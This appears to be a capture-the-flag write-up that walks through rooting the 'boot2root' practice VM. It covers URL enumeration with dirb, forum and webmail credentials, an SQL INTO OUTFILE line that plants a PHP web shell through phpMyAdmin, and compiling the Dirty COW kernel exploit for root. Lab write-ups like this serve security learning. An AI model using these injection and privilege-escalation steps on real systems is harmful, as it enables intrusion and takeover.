 -------------------------------------------------------------------------------

# The following method describes a Race Condition Privilege Escalation

-------------------------------------------------------------------------------

## First we need to find the IP address of the VM

* Refer to writeup1

##Secondly we are looking for credentials.

* We use a software call Drib to scrap some of the most common url of the website.

```
git clone https://github.com/v0re/dirb.git
./dirb https://[YOUR IP]/ wordlists/common.txt

---- Scanning URL: https://10.12.1.150/ ----
+ https://10.12.1.150/cgi-bin/ (CODE:403|SIZE:288)
==> DIRECTORY: https://10.12.1.150/forum/
==> DIRECTORY: https://10.12.1.150/phpmyadmin/
+ https://10.12.1.150/server-status (CODE:403|SIZE:293)
==> DIRECTORY: https://10.12.1.150/webmail/
```
### Forum

* After sneaking around and read all the forum post, we find a clue on the post "Probleme login ?" url = https://10.12.1.150/forum/index.php?id=6

* If your look for ```Failed password``` your will find one where the user is ``` !q\]Ej?*5K5cy*AJ``` and we think that the user who tried to login make a mistake between are password and login

![alt text](https://github.com/fhenri42/boot2root/blob/master/Ressources/Screen%20Shot%202018-03-05%20at%2010.05.14%20AM.png)

* The post was made by lmezard (Laurie Mezard)

* Conclution we have one of the password of lmezard.

### Webmail

* On the webmail we have a login form, and we just find a password in the forum section so we decided to give it a try.

![alt text](https://github.com/fhenri42/boot2root/blob/master/Ressources/Screen%20Shot%202018-03-05%20at%2010.04.21%20AM.png)

* After several attempts the combination was
* Login: ```laurie@borntosec.net```
* Password: ```!q\]Ej?*5K5cy*AJ```

* When we logged in , we find a email with the subject ```DB Access```


![alt text](https://github.com/fhenri42/boot2root/blob/master/Ressources/Screen%20Shot%202018-03-05%20at%2010.06.32%20AM.png)

* Login: ```root```
* Password: ```Fg-'kKXBj87E:aJ$```
* we really suspect in the access for a DB

### Phpmyadmin

* We tried the credentials of the email to login phpmyadmin and it worcks :)
* After some research on the web we stumble on this [aritcle](http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2)
* The injection sql we are looking for is:
```select "<?php $output = shell_exec('cat /home/LOOKATME/password'); echo $output  ?>" into outfile "/var/www/forum/templates_c/endTest0.php"```
* Copy past this line and go to to => https://10.12.1.150/phpmyadmin/index.php on the sql tab
* After this step your just need to go to https://10.12.1.150/forum/templates_c/endTest0.php
* You will find ```lmezard:G!@M6f4Eatau{sF"```
* Login: ```lmezard```
* Password: ```G!@M6f4Eatau{sF"```

## Use the credentials

* Now we got the password of the server, we can try to log on the FTP service
* ftp [YOUR-IP-ADDRESS]
* login with  ```lmezard``` ```G!@M6f4Eatau{sF"```
* get the fun file, see example bellow:

```ftp> ls
229 Entering Extended Passive Mode (|||25027|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp> get fun
local: fun remote: fun
229 Entering Extended Passive Mode (|||7488|).
150 Opening BINARY mode data connection for fun (808960 bytes).
100% |****************************************************************************************************************************************|   790 KiB  127.07 MiB/s    00:00 ETA
226 Transfer complete.
808960 bytes received in 00:00 (120.03 MiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||44244|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp>```

## Using the fun file

* Refer to writeup1, step 2
* ssh login: laurie / 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

## ssh connection
* use  ``ssh laurie@10.12.1.150`` add the password when it's ask

## Race Condition Privilege Escalation
* YES!!!! we are on the serveur ! know we need to get information about the os
* kernel verions : ```uname -r``` => 3.2.0-91-generic-pae
* Distrubition name and verisons ```cat /etc/*-release``` => Ubuntu, 12.04

* After having information on what we where working on we did some research on [EXPLOIT DATABASE](https://www.exploit-db.com)
* We find the "Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)"
* go to https://www.exploit-db.com/exploits/40839/ and Copy the script
* ```gcc -pthread dirty.c -o dirty -lcrypt && ./dirty```
* add a password, example: 12345
* ```su firefart``` use your password

#GG Your root !

